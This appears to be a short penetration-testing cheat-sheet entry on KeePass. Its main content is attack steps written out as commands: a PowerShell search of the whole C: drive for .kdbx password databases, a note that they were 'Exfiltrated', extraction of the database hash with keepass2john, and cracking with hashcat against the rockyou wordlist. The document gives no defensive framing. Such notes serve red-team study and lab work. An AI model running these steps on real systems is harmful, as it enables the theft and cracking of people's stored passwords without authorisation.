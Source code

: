 # KeePass

KeePass - [https://keepass.info/](https://keepass.info/) 
```powershell
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
# Exfiltrated
keepass2john Database.kdbx > keepass.hash
# And crack with Hashcat
hashcat -m 13400 keepass.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/rockyou-30000.rule --force
```

## References

[https://keepass.info/](https://keepass.info/) 